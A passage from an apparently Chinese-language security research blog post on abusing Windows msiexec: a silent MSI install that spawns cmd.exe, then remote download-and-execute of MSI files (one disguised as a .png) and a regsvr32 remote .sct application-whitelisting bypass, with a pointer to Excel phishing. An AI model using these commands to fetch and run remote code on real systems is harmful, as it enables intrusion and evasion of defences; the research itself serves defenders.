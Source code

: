`msiexec /q /i test2.msi`

成功弹出cmd.exe,如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-28/3-5.png)

值得注意的是弹出cmd的路径为c:\windows\installer\MSI3646.tmp


查看路径c:\windows\installer\，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-28/3-6.png)

其中6260236.msi和test2.msi的大小一样(其实就是test2.msi文件)

现在关闭弹出的cmd，再次查看路径c:\windows\installer\，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-28/3-7.png)

安装结束后，安装文件被删除，只留下.tmp文件，记录安装操作，内容如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-28/3-8.png)

当然，在%TEMP%下也会生成MSI的log文件



## 0x03 远程下载执行msi文件
---

之前在文章《Use SCT to Bypass Application Whitelisting Protection》研究过regsvr32的应用技巧，可以在命令行下远程执行服务器上的sct文件
命令行示例：
`regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll`

msiexec也同样支持这个功能


**注：**

如下链接介绍了远程执行同快捷方式结合，通过ole对象插入到excel文档进行钓鱼攻击的方法:

https://labs.nettitude.com/blog/fun-with-windows-binaries-application-whitelist-bypass-using-msiexec/

将msi文件上传到服务器，通过如下命令远程执行：
`msiexec /q /i https://raw.githubusercontent.com/3gstudent/test/master/testmsi.png`

**注：**

由于是msf生成的msi文件，所以默认会被杀毒软件拦截，但操作只是一个弹出计算器

将自己开发的msi文件上传到服务器，通过如下命令远程执行：
`msiexec /q /i https://raw.githubusercontent.com/3gstudent/test/master/test3.msi`
成功执行msi文件，弹出cmd.exe


如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-28/4-1.png)

